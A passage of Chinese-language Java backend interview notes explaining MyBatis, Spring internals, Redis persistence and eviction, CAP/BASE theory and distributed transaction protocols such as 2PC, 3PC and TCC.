1. #{}相当于sql语句的占位符，他的执行效率和安全性都比字符串拼接要好。
2. ${}相当于字符串拼接，更加灵活。可以应用在sql中的关键字。 select * from 表 order by ? 这个场景可以应用在${}上。

## mybatis的一级缓存和二级缓存

1. mybatis中默认带了一级缓存，自动就使用了一级缓存。一级缓存是跟sqlSession相关的缓存。当我们使用同样的sqlSession去执行相同的查询sql那么一级缓存就会生效。一级缓存应用场景不多，几乎用不到。
2. mybatis的二级缓存不是默认打开的，需要我们手动设置开启二级缓存。二级缓存是跟SqlSessionFactory相关的缓存。只要是同一个sqlSessionFactory创建的sqlSession对象执行的sql语句都共用这个二级缓存。

## **谈谈对spring框架的理解。IOC/DI和AOP。**。

**IOC、DI：**
  IoC（Inversion of Control） 控制反转，是一种设计思想，而不是一个具体的技术实现，IoC 的思想就是将原本在程序中手动创建对象的控制权，交由 Spring 框架来管理。将对象之间的相互依赖关系交给 IoC 容器来管理，并由 IoC 容器完成对象的注入。这样可以很大程度上简化应用的开发，把应用从复杂的依赖关系中解放出来。 IoC 容器就像是一个工厂一样，当我们需要创建一个对象的时候，只需要配置好配置文件或注解即可，完全不用考虑对象是如何被创建出来的。IoC 容器实际上就是个 Map（key，value），Map 中存放的是各种对象，而这些由IoC容器管理的对象又称之为Bean。DI（Dependency Injection）依赖注入，IoC就是通过依赖注入来实现的，通过注入的方式将IoC容器中的对象赋值给目标属性。依赖注入有三种方式：

1、属性注入：通过在目标属性上加@Autowired注解来实现。

2、setter注入：在目标属性的set方法上添加@Autowired注解来实现。

3、构造方法注入：通过在构造函数上添加@Autowired注解来实现，如果当前类中只有一个构造方法，那么 @Autowired 也可以省略

  属性注入使用起来简单但是无法注入final 修饰的对象；setter注入相比较属性注入，同样不能注入一个final修饰的对象，但是被注入的对象在注入前可以被修改；使用构造方法注入可以注入final修饰的对象，同时被注入的对象在注入前可以被修改；

**aop：**
  AOP（Aspect Oriented Programming）指的是面向切面编程，通过预编译方式和运行期动态代理实现在不修改源代码的情况下给程序动态统一添加某种特定功能的一种技术，可以实现比如日志记录、事务管理、性能统计和权限控制等功能。SpringAOP是基于动态代理来实现的，它分为两种代理方式，一种是JDK动态代理，一种是CGLIB动态代理。如果要代理的对象，实现了某个接口，那么 Spring AOP 会使用 JDK动态代理去创建代理对象，而对于没有实现接口的对象，就无法使用 JDK动态代理去进行代理，这时候 Spring AOP 会使用 Cglib动态代理 生成一个被代理对象的子类来作为代理。JDK动态代理的底层是使用反射生成一个实现目标类接口的代理类，而Cglib动态代理是使用字节码技术将目标类加载进来通过修改字节码来生成代理类。

## **SpringAOP和AspectJAOP有什么区别**

Spring AOP 属于运行时增强，而 AspectJ 是编译时增强。Spring AOP 基于动态代理来实现的，而 AspectJ 基于字节码操作来实现的。如果我们的切面比较少，那么两者性能差异不大。但是，当切面太多的话，最好选择 AspectJ ，它比 Spring AOP 快很多。

## **@Autowired和@Resource注解的区别**

二者都是用来实现依赖注入的。但是，

@Autowired是Spring提供的注解，支持属性注入、setter注入、构造方法注入，注入的对象是通过类型进行查找的，如果一个类型存在多个Bean再根据名称进行查找；

@Resource是JDK提供的注解，只支持属性注入、setter注入，注入的对象是通过名称进行查找的，如果通过名称没有找到会再通过类型进行查找。

## **spring常见的注解有哪些?**

组件注解：

 @Controller @Service @Repository @Component @Bean @Configration @Scope

装配注解：

 @Autowire @Resource @Value

aop注解：

 @Aspect @Before @After @Pointcut @Transcational

Mvc注解：

 @RestController @RequetMapping @PathVariable @RequestBody @RequestParam

## SpringMVC处理请求的流程


  

1、客户端（浏览器）发送请求，DispatcherServlet拦截请求。

2、DispatcherServlet根据请求信息调用HandlerMapping。HandlerMapping根据URL去匹配查找能处理的Handler（也就是我们平常说的Controller控制器），并会将请求涉及到的拦截器和Handler一起封装。

3、DispatcherServlet调用HandlerAdapter适配器执行Handler，在执行Handler之前会先执行前置拦截器preHandle处理，执行完Handler之后会执行后置拦截器postHandle处理。

4、Handler完成对用户请求的处理后，会返回一个ModelAndView对象给DispatcherServlet，ModelAndView顾名思义，包含了数据模型以及相应的视图的信息。Model是返回的数据对象，View是个逻辑上的View。

5、ViewResolver会根据逻辑View查找实际的View。

6、DispaterServlet把返回的Model传给View（视图渲染），然后执行拦截器的最终操作afterCompletion处理。

7、把View返回给请求者（浏览器)。

## **springboot的starter机制**（自动装配）

​	springboot的starter机制依靠于自动装配来实现的，就是在Springboot的帮助下通过一些少量注解或简单的配置就可以完成第三方依赖的注入，减少了配置第三方依赖的麻烦。使用方式就是在第三方依赖的META-INF文件中创建一个spring.factories文件，其中写入当前依赖中配置类的全类名，之后在主项目中引入这个依赖就可以通过注解的方式注入这个依赖来使用，因为主项目的SpringBootApplication注解包含有EnableAutoConfiguration注解来启动自动配置，EnableAutoConfiguration注解中的Import注解会去读取整个项目中包含第三方依赖中的spring.factories配置文件，在这个配置文件中有个配置项指向了第三方依赖的配置类@Configuration，在这个配置类中，第三方依赖会把要管理的对象都配置成@Bean注解。

## **spring中bean对象的生命周期**

整体来说生命周期分为实例化->属性赋值->初始化->使用->销毁五个阶段，但是有其他的扩展如下：

1、BeanDefinition：Bean容器找到Bean并且将Bean的定义加载进容器里。

2、postProcessBeanFactory()：对BeanDefinition进行后处理。

3、postProcessBeforeInstantiation()：执行实例化之前的方法。

4、实例化：Bean容器通过反射将Bean定义实例化。

5、postProcessAfterInstantiation()：执行实例化之后的方法。

6、属性赋值：实例化之后，Spring通过属性对应的setter方法对Bean实例里面的属性进行赋值。

7、setBeanName()：设置Bean的名称。

8、setBeanFactory()：设置BeanFactory。

9、postProcessBeforeInitialization()：执行后置Bean处理中的初始化之前的方法。

10、初始化：调用afterPropertiesSet()初始化Bean对象。

11、init-method：自定义的init方法。

12、postProcessAfterInitialization()：执行后置Bean处理中的初始化之后的方法。

13、使用：使用初始化完成的Bean对象。

14、销毁：调用destroy()方法销毁Bean对象。

15、destroy-method：自定义的destroy方法。&#x20;

## Spring中有哪几种方式把bean对象交给IOC容器

1.Bean注解加上，Configuration。

2.使用Component注解。

3.使用Import注解，可以导入一个普通的类，也可以导入一个ImportSelector。

4.可以实现FactoryBean接口。

5.可以实现BeanDefinitionRegistryPostProcessor接口，手动向容器中注册BeanDefinition。

## SpringBoot启动过程



​	运行main方法，启动springboot程序，会先new一个SpringApplication对象，在对象的构造方法中会进行一些参数的初始化工作，比如获取启动运行过程中的各种监听器。运行run方法，读取环境变量、配置信息等等，然后创建SpringApplication上下文，执行prepareContext方法将启动类作为配置类读取，将所有的配置类注册为BeanDefinition，之后执行refresh方法加载ioc容器，执行invokeBeanFactoryPostProcessor方法解析@Import注解，加载所有的自动配置类，之后执行onRefresh方法加载内置的Servlet容器创建一个内置的Tomcat，在这个过程中springboot会调用很多的监听器对外进行扩展。

## **spring如何使用三级缓存解决循环依赖的问题。**

当A对象依赖B对象，B对象又依赖A对象这时候就产生了循环依赖的问题。
使用三级缓存解决循环依赖问题的时候，本质的点在于将实例化和属性赋值分开处理。
实例化：就是在堆中开辟一块空间，实例化要么通过反射要么new的方式。
属性赋值：某些类的属性进行赋值，设置属性有2种方式，set和构造方法，set是额外的一个独立的方法，用来设置属性值；构造方法是既创建了对象又给属性赋值。set可以解决循环依赖问题，构造方法不能解决循环依赖。
初始化：调用afterPropertiesSet()初始化Bean对象。

一级、二级缓存缓存的是Object（bean对象），三级缓存的是ObjectFactory（工厂对象）。一级缓存存放的就是我们应用中需要用到的bean对象或者bean对象的代理对象；二级缓存存放的是为了处理循环依赖问题的半成品bean对象或半成品bean对象的代理对象；三级缓存存放的是Bean工厂对象，工厂对象可以产生Bean对象提前暴露的引用，也就是半成品的Bean对象或者半成品的Bean对象的代理对象。

三级缓存解决循环依赖的过程：
1、首先调用createBeanInstance方法实例化a对象，此时只是堆空间开辟，并没有赋值属性值，此时不是一个完整的对象，是半成品，之后会调用addSingletonFactory方法将已经实例化但未完成属性赋值未初始化的对象a放入到三级缓存singletonFactories中，即将对象a提早暴露给IoC容器；
2、当有了半成品a之后，要给a对象属性赋值，此时发现a依赖b，此时就会尝试去获取对象b，从一二三级缓存中未发现b对象时就会去执行创建b对象的过程；
3、在创建对象b的过程中，执行实例化和属性赋值操作时发现，对象b依赖对象a，此时就会从一二级缓存中查找a对象，一级缓存因为a对象未初始化完成所以未找到，二级缓存因为a对象未完成属性赋值所以也未找到，之后从三级缓存中通过ObjectFactory.getObject拿到对象a，当b获取到a时会继续完成属性赋值、初始化操作，当初始化完成后会将完整的b对象放入到一级缓存中；
4、a对象从一级缓存中获取到b对象完成属性赋值和初始化操作，之后将a对象放入到一级缓存中；

循环依赖是否一定需要三级缓存来解决？ 
如果不存在动态代理，那么完全可以通过二级缓存来解决，但是如果存在动态代理就要使用三级缓存来解决，理由在下面解释；

为什么要包装一个ObjectFactory对象？
如果创建的Bean对象有对应的aop代理，那么在属性赋值时，注入的应该是对应的代理对象，但是Spring无法提前知道这个对象是不是有循环依赖问题，在正常情况下Spring都是在对象初始化后才创建对应的代理。这时候Spring有两个选择：

1、不管有没有循环依赖，实例化后就直接创建好代理对象，并将代理对象放入缓存，出现循环依赖时，其他对象直接就可以取到代理对象并注入，此时只需要二级缓存；
2、不提前创建好代理对象，在出现循环依赖被其他对象注入时，才提前生成代理对象（此时只完成了实例化）。这样在没有循环依赖的情况下，Bean还是在初始化完成才生成代理对象，此时用到了三级缓存；
因此，三级缓存主要是为了正常情况下，代理对象能在初始化完成后生成，而不用提前生成，这样才符合Spring设计的原则，Spring在设计之初就是通过AnnotationAwareAspectJAutoProxyCreator这个后置处理器来在Bean生命周期的最后一步来完成AOP代理，而不是在实例化后就立马进行AOP代理，如果不按照这个原则会产生一定的风险（具体风险未知）。

## Spring事务失效的几个场景

1. 抛出检查异常导致事务不能回滚
    1. Spring默认只能回滚运行时异常。
    2. 解决办法就是配置rollbackfor属性
2. 业务方法内自己处理了异常
    1. 事务通知类中只有捕捉到异常后才有可能事务回滚，在业务类中自己把异常处理了就相当于没有异常发生。
    2. 解决办法是捕捉到异常处理后再手动抛出一下。
3. 非public方法导致事务失效
    1. Spring为方法添加代理，添加事务通知的前提是业务方式必须是public
    2. 解决办法就是把方法改为public
4. 调用本类中的其他方法会导致事务失效。
    1. 本类中的其他方法调用时不会经过代理，因此无法增强。
    2. 把自己通过注入的方式作为属性，然后调用方法。

## springBoot中的定时任务

定时任务是指不用用户调用，直接在定点时间执行的方法就是定时任务。入口类上面添加@EnableScheduling，然后业务方法上面添加@Scheduled(
cron = "0 9 11 ? \* \*")

应用场景：

1.定时秒杀，2.每天凌晨删除验证码次数。3.定时签到。4.没有接收到ack应答的消息的重复发送。

在分布式环境中我们要解决定时任务重复执行的问题，这时候我们可以选用一些定时任务框架。比如XXL-JOB，这个框架可以避免定时任务重复执行。

## Spring框架中的单例bean是线程安全的吗?

大部分时候我们并没有在系统中使用多线程，所以很少有人会关注这个问题。单例bean 存在线
程问题，主要是因为当多个线程操作同一个对象的时候，对这个对象的非静态成员变量的写操 作会存在线程安全问题。

有两种常见的解决方案：

1. 在 bean 对象中尽量避免定义可变的成员变量（不太现实）。
2. 在类中定义一个 ThreadLocal 成员变量，将需要的可变成员变量保存在 ThreadLocal中（推 荐的一种方式）。

## Spring中的设计模式有哪些?

- 工厂模式：Spring使用工厂模式通过BeanFactory和ApplicationContext创建bean对 象。
- 单例模式： Spring 中的 bean 默认都是单例的。
- 代理模式：Spring 的 AOP 功能用到了 JDK 的动态代理和 CGLIB 字节码生成技术；
- 模板方法： 用来解决代码重复的问题。比如 RestTemplate、jdbcTemplate、JpaTemplate 等以 Template 结尾的对
  数据库操作的类，它们就使用到了模板模式。
- 观察者模式： Spring 事件驱动模型就是观察者模式很经典的一个应用。定义对象键一种一对多的依赖关系，当一个对象的状态发生改变时，所有依赖于它的对象都会得到通知被制动更新，如Spring
  中 listener 的实现 ApplicationListener。
- 包装器设计模式：我们的项目需要连接多个数据库，而且不同的客户在每次访问中根据需要
  会去访问不同的数据库。这种模式让我们可以根据客户的需求能够动态切换不同的数据源。
- 适配器模式：Spring AOP 的增强或通知（Advice）使用到了适配器模式、Spring MVC 中也是用到了适配器模式适配 Controller。

## ES的倒排索引

​	正排索引是文档ID到文档内容的索引，倒排索引就是文档内容到文档ID的索引，它在存储文档数据时会预先将文档数据通过分词器进行分词，然后建立各个分词与文档数据的映射关系，那么就可以实现通过分词或者说关键词来进行文档数据检索。

# 分布式

## **缓存击穿，穿透，雪崩**

1. 缓存的目标是提高程序的运行效率。mysql并发量过大，我们可以把数据放入到redis里面来分摊mysql的压力。
2. 缓存击穿是指缓存的热点数据到期了，同时并发查询该数据的线程都涌向数据库，导致数据库压力瞬间倍增。这个就是缓存击穿。缓存击穿的应对手段：1.缓存永不过期。2.使用锁（本地锁，分布式锁）。
3. 缓存穿透是指数据库被恶意攻击，客户端每次查询的都是mysql中不存在的数据。解决办法：1.在redis里面把不存在的数据也缓存起来。2.使用布隆过滤器。
4. 缓存雪崩指的是redis里面缓存的数据同时到期，导致查询数据都来到mysql这。这就是缓存雪崩。解决手段：设置有效时长时可以使用随机数。

## **为什么要使用Redis，Redis基本数据类型，Redis的持久化机制。**

### 为什么要用Redis？

redis是一个内存型的存储了key-value格式的非关系型数据库。他的运行速度比mysql要快很多。

### Redis基本数据类型

redis常见的基本数据类型：string,list,set,zset,hash。

1. string：应用最广，缓存数据可以使用字符串，我们将java的对象转换为json串存储到redis里面。

   可以实现：

   ​	（1）缓存：将计算结果、数据库查询结果或者配置数据存储在Redis中，可以提高应用的响应速度和吞吐量。

   ​	（2）计数器：使用Redis的自增和自减操作，实现简单的计数器功能，如网站的访问次数统计。

   ​	（3）限流：使用Redis的incr和expire命令，实现固定窗口算法的流量控制，防止系统过载。

   ​	（4）分布式锁：使用setnx操作实现分布式锁，保证同一时刻只有一个线程访问临界资源。

2. list：与 Java 中的 LinkedList 类似，可以看做是一个双向链表结构，既可以支持正向检索，也可以支持反向检索。里面可以获取第一个元素，可以往最后一个元素后放数据，所以他可以实现队列的效果。

3. set：与 Java 中的 HashSet 类似，可以看做是一个 value 为 null 的 HashMap。里面可以求交集和并集所以我们可以用set实现共同好友。

4. zset：又叫SortedSet，是一个可排序的 set 集合，与 Java 中的 TreeSet 有些类似，但底层数据结构却差别很大。SortedSet 中的每一个元素都带有一个 score 属性，可以基于 score 属性对元素排序，底层的实现是一个跳表（SkipList）加 hash 表。在保存数据的是有一个分值，所以我们可以用zset实现排行榜、TopN功能。

5. hash：其 value 是一个无序字典，类似于 Java 中的 HashMap 结构。他可以应用在存储对象，用它来存储对象比string更好的地方是可以对某个属性进行独立的操作。

### Redis的持久化机制

​	redis的持久化是指：redis的数据都在内存中存储，内存的数据都是临时的数据，当硬件断电后数据都会被销毁掉。redis如何实现断电后数据的恢复就是redis的持久化机制。redis有两种持久化手段：

​	**RDB快照持久化：**RDB快照持久化是一种全量的持久化方式，它会周期性地将内存中的数据以二进制格式保存到磁盘上的RDB文件。RDB文件是一个经过压缩的二进制文件，包含了数据库在某个时间点的数据快照。RDB快照有助于实现紧凑的数据存储，适合用于备份和恢复。

​		**优点：**RDB快照在恢复时速度较快，因为它是全量的数据快照；由于RDB文件是压缩的二进制文件，它在磁盘上的存储空间相对较小；适用于数据备份和灾难恢复；

​		**缺点：**RDB快照是周期性的全量持久化，可能导致某个时间点之后的数据丢失；在保存快照时，Redis服务器会阻塞（自动执行的是save命令，bgsave命令才是异步的不阻塞的），可能对系统性能造成影响；

​	**AOF日志持久化：**AOF日志是一种增量的持久化方式，它记录了每个写操作命令，以追加的方式将命令写入AOF文件。通过重新执行AOF文件中的命令，可以重建出数据在内存中的状态。AOF日志提供了更精确的持久化，适用于需要更高数据安全性和实时性的场景。

​		**优点：**AOF日志可以实现更精确的数据持久化，每个写操作都会被记录；在AOF文件中，数据可以更好地恢复，因为它保存了所有的写操作历史；AOF日志适用于需要实时恢复数据的场景，如秒级数据恢复要求；

​		**缺点：**AOF日志相对于RDB快照来说，可能会占用更多的磁盘空间，因为它是记录每个写操作的文本文件；AOF日志在恢复大数据集时可能会比RDB快照慢，因为需要逐条执行写操作；

​	根据不同的需求，可以选择RDB快照、AOF日志或两者结合使用。你可以根据数据的重要性、恢复速度要求以及磁盘空间限制来选择合适的持久化方式。有时候，也可以通过同时使用两种方式来提供更高的数据保护级别。

​	**AOF为什么要先执行命令再记录日志？**

​		1、**数据一致性：** 如果先记录日志再执行命令，假设记录日志成功而执行命令失败（例如服务器崩溃），那么日志中记录的操作实际上没有被应用，会导致数据在重启后与预期不一致。
​		2、**可恢复性：** 先执行命令再记录日志可以保证在服务器重启后，即使在崩溃前未能将操作记录到日志中，也可以通过重新执行AOF日志中的命令，将数据恢复到正确的状态。
​		3、**避免日志丢失：** 如果先记录日志再执行命令，如果在记录日志之前发生了服务器崩溃，会导致操作丢失，而这些操作可能已经影响了数据的一致性。

​		当然，这里面还有一个非常重要的原因，**它是在命令执行后才记录日志，所以不会阻塞当前的写操作**。

​	**AOF日志文件太大了怎么办？**

​		可以进行**AOF日志重写**，AOF日志重写是一种以全量的方式生成新的AOF文件，其中记录的是一个数据集的写入操作，这个数据集的大小通常比原始AOF文件小很多。AOF日志重写的优势在于它可以生成一个更小、更紧凑的AOF文件，避免了不断增大的AOF文件所带来的磁盘空间和读写开销。此外，新的AOF文件只包含了写入操作，没有之前的读操作，因此它在恢复数据时不需要考虑之前的读操作。

​		重写流程如下：

​		1、**触发重写：** AOF重写可以手动触发，也可以根据配置自动触发。当满足一定条件（例如AOF文件大小超过指定百分比或最小大小）时，Redis会启动AOF重写过程。
​		2、**后台进程启动：** 当AOF重写触发时，Redis会启动一个子进程，这个子进程会负责执行AOF重写操作。
​		3、**创建数据集快照：** 在子进程中，Redis会创建一个数据集的内存快照，即内存中数据在某个时间点的快照。
​		4、**遍历数据集：** 子进程开始遍历数据集中的键，并将写操作转换成命令序列。
​		5、**生成新AOF文件：** 子进程会将遍历期间生成的命令序列追加到新的AOF文件中，这个新文件是紧凑的，只包含了数据集在某个时间点的写入操作。
​		6、**替换原AOF文件：** 当新的AOF文件生成完成后，子进程会将原始的AOF文件替换为新的AOF文件。这一步通常很快，因为新的AOF文件相对较小。
​		7、**主线程继续服务：** 在AOF重写过程中，主线程仍然可以继续处理客户端请求，响应读取操作等，不会被阻塞。

## Redis大key问题、热key问题

### 大key问题

​	**什么是大key？**

​		通常我们会将含有较大数据或含有大量成员、列表数的Key称之为大Key，下面我们将用几个实际的例子对大Key的特征进行描述：

- 一个STRING类型的Key，它的值为5MB（数据过大）
- 一个LIST类型的Key，它的列表数量为20000个（列表数量过多）
- 一个ZSET类型的Key，它的成员数量为10000个（成员数量过多）
- 一个HASH格式的Key，它的成员数量虽然只有1000个但这些成员的value总大小为100MB（成员体积过大）

​	**解决方案**

​		对大key进行拆分，获取到大key的所有成员，遍历所有成员将每个成员的数据根据一定的算法拆分成多个小key，将拆分后的小key存储到Redis中，删除掉原来的大key，确保代码每次获取的都是拆分后的小key。

### 热key问题

​	**什么是热key？**

​		在某个Key接收到的访问次数、显著高于其它Key时，我们可以将其称之为热Key，常见的热Key如：

- 某Redis实例的每秒总访问量为10000，而其中一个Key的每秒访问量达到了7000（访问次数显著高于其它Key）
- 对一个拥有上千个成员且总大小为1MB的HASH Key每秒发送大量的HGETALL（带宽占用显著高于其它Key）
- 对一个拥有数万个成员的ZSET Key每秒发送大量的ZRANGE（CPU时间占用显著高于其它Key）

​	**解决方案**

​		将单一的Redis更改为Redis Cluster（Redis集群）结构，在每一个Redis Node中都缓存一份热key，通过代码使得每次请求均匀的覆盖到各个Node中来缓解单一节点的热key问题；也可以使用主从复制模式来实现主机写，从机读来缓解单一节点的热key问题。

## Redis过期删除策略和内存淘汰策略

### 过期删除策略：

​	Redis可以对Key设置过期时间，因此需要有相应的机制将已经过期的键值对删除，而做这个工作的就是过期键值删除策略。

​	**如何判断key已经过期了？**

​		每当我们对一个Key设置了过期时间时，Redis会把该Key带上过期时间存储到一个过期字典（expires dict）中，也就是说过期字典保存了数据库中所有Key的过期时间。

​		过期字典是一个Map类型的结构，key是一个指针指向某个键对象；value是一个long long类型的整数，保存了key的过期时间。当我们查询一个key时，Redis 首先检查该key是否存在于过期字典中，如果不存在则正常读取键值，如果存在则会获取该key的过期时间，然后与当前系统时间进行比对，如果比系统时间大，那就没有过期，否则判定该key已过期。

​	**常见的有三种过期删除策略：**

​		1、**定时删除：**定时删除策略的做法是在设置key的过期时间时，同时创建一个定时时间，当时间到达时，由事件处理器自动执行key的删除操作。

​			**优点：**可以保证过期key尽快被删除，是对内存友好的；

​			**缺点：**在过期key比较多的情况下，删除过期key可能会占用相当一部分CPU时间，在内存不紧张但CPU时间紧张的情况下，将CPU时间用于删除和当前任务无关的过期键上，无疑会对服务器的响应时间和吞吐量造成影响。所以，定时删除策略对 CPU 不友好。

​		2、**惰性删除：**惰性删除的做法是不主动删除过期键，每次从数据库访问key时，都会检测key是否过期，如果过期则删除该key。

​			**优点：**只有在没存访问时才会检查key是否过期，是对CPU友好的；

​			**缺点：**如果一个key已经过期了但是一直没有被访问，那么它就不会被删除，是对内存不友好。

​		3、**定期删除：**定期删除的做法是每隔一段时间随机从数据库中取出一定数量的key进行检查，并删除其中过期的key。

​			**优点：**通过限制删除操作执行的时长和频率减少对CPU的影响，同时也能删除一部分过期数据减少了过期键对内存的占用。

​			**缺点：**内存清理方便没有定时删除效果好，同时又没有惰性删除使用的CPU资源少；难以确定删除操作执行的时长和频率。如果执行的太频繁，定期删除策略变得和定时删除策略一样，对CPU不友好；如果执行的太少，那又和惰性删除一样了，过期key占用的内存不会及时得到释放。

​	前面三种内存删除策略每一种都各有优缺点，仅使用其中某一个策略都不能满足实际需求。所以Redis选择**惰性删除+定期删除**这两种策略配合使用，以求在合理使用 CPU 时间和避免内存浪费之间取得平衡。

### 内存淘汰策略：

​	当Redis的运行内存已经超过了Redis设置的最大内存之后，会使用内存淘汰策略删除符合条件的key来释放一部分内存，以此来保障Redis的高效运行。

​	Redis的内存淘汰策略共有八种，这八种可分为**不进行数据淘汰**和**进行数据淘汰**两类策略。

​	**不进行数据淘汰：**

​		noeviction（Redis3.0之后，默认的内存淘汰策略）：它表示当运行内存超过最大设置内存时，不淘汰任何数据，这时如果有新的数据写入，则会触发 OOM，但是如果没用数据写入的话，只是单纯的查询或者删除操作的话，还是可以正常工作。

​	**进行数据淘汰：**

​		针对数据淘汰这一类又细分为，**在设置了过期时间的数据中进行淘汰**和**在所有数据范围内进行淘汰**两类策略。

​		**在设置了过期时间的数据中进行淘汰：**

- volatile-random：随机淘汰设置了过期时间的任意键值；
- volatile-ttl：优先淘汰更早过期的键值。
- volatile-lru（Redis3.0之前，默认的内存淘汰策略）：淘汰所有设置了过期时间的键值中，最近最少使用的键值；
- volatile-lfu（Redis 4.0 后新增的内存淘汰策略）：淘汰所有设置了过期时间的键值中，最近最不常使用的键值；

​		**在所有数据范围内进行淘汰：**

- allkeys-random：随机淘汰任意键值;
- allkeys-lru：淘汰整个键值中最近最少使用的键值；
- allkeys-lfu（Redis 4.0 后新增的内存淘汰策略）：淘汰整个键值中最近最不常使用的键值。

​	**LRU 算法和 LFU 算法有什么区别？**

​		LRU全称是 Least Recently Used 翻译为最近最少使用，会选择淘汰最近最少使用的数据。传统 LRU 算法的实现是基于「链表」结构，链表中的元素按照操作顺序从前往后排列，最新操作的键会被移动到表头，当需要内存淘汰时，只需要删除链表尾部的元素即可，因为链表尾部的元素就代表最久未被使用的元素。LRU 算法有一个问题，**无法解决缓存污染问题**，比如应用一次读取了大量的数据，而这些数据只会被读取这一次，那么这些数据会留存在 Redis 缓存中很长一段时间，造成缓存污染。

​		因此，在Redis 4.0之后引入了LFU算法来解决这个问题，LFU全称是 Least Frequently Used 翻译为最近最不常使用的，LFU算法是根据数据访问次数来淘汰数据的，它的核心思想是“如果数据过去被访问多次，那么将来被访问的频率也更高”，LFU 算法会记录每个数据的访问次数。当一个数据被再次访问时，就会增加该数据的访问次数。这样就解决了偶尔被访问一次之后，数据留存在缓存中很长一段时间的问题，相比于 LRU 算法也更合理一些。

## cap定理和base定理是什么？

cap是指一个项目的三个特性：p表示分区容错性，a表示的是可用性，c表示的是一致性。

分区容错性指定的是一个项目他被拆分到多个服务上面，就是一个分布式环境，需要各个服务器之间进行通信。我们现在做的项目都需要满足分区容错性。只要你的系统不是一个单机环境，你都要满足分区容错性。

可用性：可用性指的是系统的是否可用正常运行。不会因为一些原因导致系统不做响应。互联网项目的特点是用户至上，所以要满足用户的可用性。银行项目因为涉及到金钱的问题，有些情况会放弃掉可用性。

一致性：系统中的数据不能出错。比如，用户下了一个订单，库存里面的商品就要减一。比如商城类项目用户买完商品后，他的积分要增加。

cap理论研究发现：一个系统的三个特性永远不会同时都满足，我们在开发项目的时候只能选择性的丢弃掉一个特性。ca系统，ap系统，cp系统。ca系统比较少见，军事上一些系统可能会做成ca系统，先保证可用性和一致性。ap系统，互联网性的项目都是ap系统，cp系统经常应用在银行系统中。

base理论就是基于cap理论进行了进一步的阐述：

ba:基本可用，s：软状态。e：最终一致性。

在目前开发环境，分区容错性一定是需要满足的。我们就需要从一致性和可用性进行取舍。base理论要求我们要先满足可用性，使我们的系统达到基本可用。一致性可用适当的放弃。但是一致性不能完全放弃，需要有一个软状态，软状态就是系统数据的不一致状态。这个软状态可用根据情况有一定时限，到达时限后，需要数据一致。这就是最终一致性。

## **分布式事务的解决方案**

分布式事务是要解决在分布式环境中两个服务做不同的操作，能够相互影响，从而保持数据的一致性，不能一个项目事务成功，一个项目事务失败造成数据不一致。

常见的分布式事务有下面四种方式：

1. **2pc（数据库层面）：**2阶段提交。是指把事务提交分为准备阶段、提交阶段这两个阶段，通过引入协调者来协调参与者的行为，并最终决定这些参与者是否要真正执行事务。这种是强一致的、中心化的原子提交协议。

   ​	（1）准备阶段：

   ​		协调者询问参与者事务是否执行成功，参与者发回事务执行结果。

   ​	（2）提交阶段：

   ​		如果事务在每一个参与者上都执行成功，协调者就发送通知让参与者提交事务；否则协调者发送通知让参与者回滚事务。

   **存在的问题：**

   ​	（1）同步阻塞：所有参与者在等待其他参与者响应时都处于同步阻塞状态，无法进行其他操作。

   ​	（2）单点故障：协调者在2PC中起到了非常大的作用，如果其发生故障会造成很大的影响，特别是在提交阶段发生故障，会导致所有的参与者一直处于等待状态无法完成其他操作。

   ​	（3）数据不一致：在阶段二如何协调者只发送了部分commit消息，此时网络发生异常那么只有部分参与者收到了commit消息，此时会使得系统数据不一致。

   ​	（4）太过保守：任意一个参与者失败都会导致整个事务失败，没有完善的容错机制。

2. **3pc（数据库层面）：**3阶段提交。是指在2阶段提交的基础上增加了CanCommit阶段并且引入了超时机制，一旦事务参与者迟迟没有收到协调者的Commit请求就会自动进行本地Commit，这样相对有效的解决了协调者单点故障的问题。

   ​	（1）CanCommit：

   ​		协调者向所有参与者发送一个包含事务内容的CanCommit请求，询问是否可以执行事务提交操作，并等待参与者的响应；各参与者向协调者反馈事务询问的响应，如果认为自己可以顺利执行事务就返回YES，否则返回NO。

   ​	（2）PreCommit：

   ​		协调者在得到所有参与者响应后会根据结果执行两种操作：执行事务或者中断事务。

   ​		执行事务：协调者向所有参与者节点发出PreCommit请求；参与者收到PreCommit请求后会执行事务操作同时记录undoLog和redoLog日志，根据事务执行的结果如果成功就返回ACK，同时等待Commit或者Abort。

   ​		中断事务：协调者向所有的参与者发出abort请求，参与者如果收到abort请求或者超时了都会中断事务。

   ​	（3）DoCommit：根据二阶段的结果同时也会出现两种情况：

   ​		执行提交：如果所有的参与者都是ACK，那么协调者会向所有的参与者发送DoCommit请求，参与者收到请求后会正式提交事务，完成后向协调者发送ACK消息，协调者收到所有的ACK消息后完成事务。

   ​		中断事务：如果有一个协调者返回No或者超时了就会执行中断事务，协调者会向所有的参与者发送Abort请求，参与者收到Abort后会利用在二阶段记录的undoLog日志来进行事务回滚，完成回滚后会向协调者发送ACK消息，协调者收到所有的ACK消息后中断事务。

   ​	另外，一旦进入到阶段三可能会出现协调者故障或者协调者和参与者之间的网络故障，一段出现了任一一种情况，最终都会导致参与者无法收到 DoCommit 请求或者 Abort 请求，针对这种情况，参与者都会在等待超时之后，继续进行事务提交。

3. **TCC事务补偿（应用层面）：**基于**Base定理**实现了最终一致。先提交各个服务的事务。一旦有一个出现异常，然后就采取事务补偿手段对事务进行回滚。它分为两个阶段：

   ​	（1）第一个阶段（Try 阶段）：Try 阶段主要是对业务系统做检测及资源预留，比如Bob 要向 Smith 转账，在 Try 阶段，要先调用远程接口把 Smith 和 Bob 的钱给冻结起来。

   ​	（2）第二个阶段（Confirm/Cancel阶段）：本阶段根据第一阶段的结果，决定是执行confirm还是cancel。

   ​		Confirm：Confirm 阶段主要是对业务系统做确认提交，Try阶段执行成功并开始执行 Confirm阶段时，**默认 Confirm阶段是不会出错的。即：只要Try成功，Confirm一定成功**。即执行远程调用的转账的操作，转账成功进行解冻。

   ​		Cancel：Cancel 阶段主要是在业务执行错误，需要回滚的状态下执行的业务取消，预留资源释放。即第二步执行成功，那么转账成功，如果第二步执行失败，则调用远程冻结接口对应的解冻方法。

   ​	TCC属于应用层的一种补偿方式，对应用的侵入性非常强，业务逻辑的每个分支都需要实现try、confirm、cancel三个操作，为了满足一致性的要求，confirm和cancel接口还必须实现幂等。

4. **依据消息队列完成分布式事务：**

   ​	（1）使用rocketMQ的事务消息：

